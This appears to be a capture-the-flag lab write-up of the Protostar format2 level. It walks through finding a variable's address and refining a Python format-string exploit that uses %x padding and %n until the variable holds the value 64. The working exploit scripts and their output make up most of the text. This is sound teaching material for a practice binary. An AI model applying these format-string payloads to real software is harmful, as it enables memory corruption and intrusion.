 # Format2 Protostar


> This level moves on from format1 and shows how specific values can be written in memory.
>  
> This level is at /opt/protostar/bin/format2

First, let's find out the address of our target variable, `target`. It is the variable we want to override using format string exploit. We can use both `nm` and `objdump -t` to view the symbols table.
```
user@protostar:/opt/protostar/bin$ nm format2
[...]
080496e4 B target
08048454 T vuln
```
```
user@protostar:/opt/protostar/bin$ objdump -t format2

format2:     file format elf32-i386

SYMBOL TABLE:
[...]
08048454 g     F .text	00000067              vuln
080496d8 g     O .bss	00000004              stdin@@GLIBC_2.0
080496e4 g     O .bss	00000004              target
[...]
```



Since the hint states that this challenge is related to [format1][1], I edited its exploit script to fit format2.
```
import struct

is_time_to_exploit = False

exploit = struct.pack("I", 0x080496e4)  #Changed address of the variable
exploit += "\x41\x41\x41\x41"

total_length = 500
num_Dwords = 143

for i in range(num_Dwords):
	exploit += "_%x"

if is_time_to_exploit:
	exploit += "_%n"
	num_Dwords += 1

remaining_len = total_length - (num_Dwords * 3)

assert remaining_len >= 0

for i in range(remaining_len):
	exploit += "_"

print exploit
```

I first ran the script and saved the printed exploit string in a file I arbitrarily named `format2 input`. Using `cat`, I piped the exploit string into the stdin of `./format2`. It printed out 143 DWORDS of memory.
```
user@protostar:/opt/protostar/bin$ cat /home/user/format2\ input | ./format2
����AAAA_200_b7fd8420_bffff524_80496e4_41414141_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825_5f5f5f78_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f5f_5f5f5f_b7ec6365_b7ff1040_bffff6f8_80484c6_80484e0_0_bffff778_b7eadc76_1_bffff7a4_bffff7ac_b7fe1848______________________________________________________________________target is 0 :(
```

Notice that time the address is closer to the top of the stack than in [format1][1]. This is because the string here is stored in a local variable in the function `<vuln>` instead of an argument passed to `<main>`.

The address of `target` is the 4th DWORD in the stack (ie `[...]200_b7fd8420_bffff524_80496e4_[...]`). Thus, we can need to print only 3 `"%x"` format string specifiers so that `"%n"` will dereference `80496e4` and write into `target`. We can ignore the first part of the output until "AAAA" as it is not the content of the stack.
```
import struct

is_time_to_exploit = True

exploit = struct.pack("I", 0x080496e4)
exploit += "\x41\x41\x41\x41"

total_length = 500
num_Dwords = 3

for i in range(num_Dwords):
	exploit += "_%x"

if is_time_to_exploit:
	exploit += "_%n"
	num_Dwords += 1

remaining_len = total_length - (num_Dwords * 3)

assert remaining_len >= 0

for i in range(remaining_len):
	exploit += "_"

print exploit
```

We successfully wrote a non-null value into the variable `target`. However, our goal this time round is to write a specific value, namely the integer value 64. So, we failed.
```
user@protostar:/opt/protostar/bin$ cat /home/user/format2\ input | ./format2
��AAAA_200_b7fd8420_bffff524___[...]__
target is 31 :(
```

You may wonder why `target` was 31. The table below breaks down the output. 31 characters were printed before `"%n"` wrote into `target`.

| Bytes | Number of characters so far |
| --- | --- |
| \xe4\x96\x04\x08 | 4 | 
|AAAA | 8 |
|_200 | 12 |
| bf7d | 16 |
| 8420 | 20 |
| _bff | 24 |
| ff52 | 28 |
| 4__ | 31 |


To successfully complete this level, we just need to print 64 characters before `"%n"` wrote into `target`. We could hardcode the number of characters to print, but I decided to take a different approach. Do you notice that the contents of the stack are printed with different number of characters? For instance, the first value of the stack is `0x200` (thus 3 characters are printed excluding 0x), whereas the second is `0xb7fd8420` (thus 8 characters are printed excluding 0x). I decided to standardize the number of characters printed by using a field width of 8 (ie `"%8x"` instead of "%x"). I removed the underscore characters as they were included only to make the output more readable when we were looking at the contents of the stack.

Since it is a guarantee that the address of `target` is the 4th DWORD in the stack, that means the first 3 DWORDS in the stack will now print 3 * 8 = 24 characters. We need to print another 40. Since the address of `target` itself takes 4 bytes, that leaves 36 bytes of padding. Thus I used `exploit += "AAAAAAAA" * 4 + "BBBB"`.

After making the changes described above, I have the following Python exploit script. You may wonder why is there this line of code - `total_length = 500`. It is gratuitous, I agree. It was necessary for [format1][1]. Even though it is not necessary here, there is no need to remove it as characters printed after `"%n"` are not included in the value printed into `target`.
```
import struct

is_time_to_exploit = True

exploit = struct.pack("I", 0x080496e4)
exploit += "AAAAAAAA" * 4 + "BBBB"

total_length = 500
num_Dwords = 3

for i in range(num_Dwords):
        exploit += "%8x"

if is_time_to_exploit:
        exploit += "%n"
        num_Dwords += 1

remaining_len = total_length - (num_Dwords * 3)

assert remaining_len >= 0

for i in range(remaining_len):
        exploit += "_"

print exploit
```

After running the exploit script, I successfully modified `target` with the desired value.
```
user@protostar:/opt/protostar/bin$ cat /home/user/format2\ input | ./format2
��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB     200b7fd8420bffff524____________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________you have modified the target :)

```

[1]: https://github.com/solomonbstoner/solomonbston3r-ctf-diary/blob/master/Others/Exploit-Exercises/protostar/Format1%20Protostar.md